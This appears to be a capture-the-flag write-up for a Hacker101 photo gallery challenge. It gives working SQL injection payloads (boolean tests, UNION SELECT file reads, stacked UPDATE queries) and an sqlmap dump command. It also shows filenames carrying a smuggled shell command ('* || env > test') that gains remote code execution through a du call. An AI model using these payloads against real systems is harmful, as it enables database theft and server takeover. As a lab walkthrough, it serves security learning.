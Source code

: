 # Photo Gallery

## FLAG1 Solution 

When clicked to view the website, we are presented with this.
![](./imgs/index.jpg)

Based on the image link looks like injectable 

http://127.0.0.1/xxxxxxxxxx/fetch?id=1

![](./imgs/img_src.jpg)

Tried with the following

```sql
fetch?id=1 and 1=1
fetch?id=1 and 1=2
```

1=1 works but 1=2 does not and shows some error.

![](./imgs/err.jpg)


Using SqlMap, the flag is obtained. 

```
python sqlmap.py -u http://127.0.0.1/xxxxxxxxxx/fetch?id=1 --dump
```

![](./imgs/flag_1.jpg)

## FLAG0 Solution 

Based on flag 1, when fetching an image id, it will return an image from the **files** directory.

http://127.0.0.1/xxxxxxxxxx/fetch?id=1

| id | title            | parent | filename           |
| -- | ---------------- | ------ | ------------------ |
| 1  | Utterly adorable | 1      | files/adorable.jpg |
| 2  | Purrfect         | 1      | files/purrfect.jpg |
| 3  | Invisible        | 1      | FLAG1              |

Normally id is integer, so decimal may make an error here.

```sql
fetch?id=1.1
```

![](./imgs/notfound.jpg)

So when do UNION SELECT with the image name, it loads the image 1 again.

```sql
id=1.1 UNION SELECT 'files/adorable.jpg' --
```

![](./imgs/adorable.jpg)


The application run on [uwsgi-nginx-flask-docker](https://github.com/tiangolo/uwsgi-nginx-flask-docker). Therefore, the configuration file is **uwsgi.ini**

```sql
id=1.1 UNION SELECT 'uwsgi.ini' --
```

The file shows

```
[uwsgi] module = main callable = app 
```

And the main file

```sql
id=1.1 UNION SELECT 'main.py' --
```

Using [main.py](./main.py) the flag is obtained. 

![](./imgs/flag.jpg)

## FLAG2 Solution 

We know there are images taking some of the spaces here, but the total space used are showing 0.

So as we already got the source code of the page, we can check how the space calculated in [line 39][1].

```python
rep += '<i>Space used: ' + subprocess.check_output('du -ch %s || exit 0' % ' '.join('files/' + fn for fn in fns), shell=True, stderr=subprocess.STDOUT).strip().rsplit('\n', 1)[-1] + '</i>'
```

So here we can see the commands here.

```bash
du -ch filenames || exit 0
```

And we may change file name to inject with commands here.

As we have the table here

| id | title            | parent | filename           |
| -- | ---------------- | ------ | ------------------ |
| 1  | Utterly adorable | 1      | files/adorable.jpg |
| 2  | Purrfect         | 1      | files/purrfect.jpg |
| 3  | Invisible        | 1      | FLAG1              |

By modifying the image title, we have successfully updated file title 3. 

```sql
id=1;UPDATE photos SET title='test' WHERE id=3;COMMIT;--
```

![](./imgs/filename.jpg)

Now we can update **filename** to perform Remote Code Execution (RCE). 

[http://127.0.0.1/xxxxxxxxxx/fetch?id=1;UPDATE photos SET filename='* || ls > test' WHERE id=3;COMMIT;--]()

```sql
id=1;UPDATE photos SET filename='* || ls > test' WHERE id=3;COMMIT;--
```

Visit **INDEX** http://127.0.0.1/xxxxxxxxxx/ page to execute the command.

And then go check the execution result

[http://127.0.0.1/xxxxxxxxxx/fetch?id=1.1 UNION SELECT 'test'--]()

```sql
id=1.1 UNION SELECT 'test'--
```

Here we got **ls** results in file **test**

```
Dockerfile files main.py main.pyc prestart.sh requirements.txt test uwsgi.ini 
```

[http://127.0.0.1/xxxxxxxxxx/fetch?id=1;UPDATE photos SET filename='* || env > test' WHERE id=3;COMMIT;--]()

```sql
id=1;UPDATE photos SET filename='* || env > test' WHERE id=3;COMMIT;--
```

Visit **INDEX** http://127.0.0.1/xxxxxxxxxx/ page to execute the command.

Go to the following url to get the flag. 

[http://127.0.0.1/xxxxxxxxxx/fetch?id=1.1 UNION SELECT 'test'--]()

```sql
id=1.1 UNION SELECT 'test'--
```

Here we got all 3 flags in one place.

![](./imgs/flag.jpg)

[1]: https://github.com/testerting/hacker101-ctf/blob/master/photo_gallery/flag0/main.py#L39
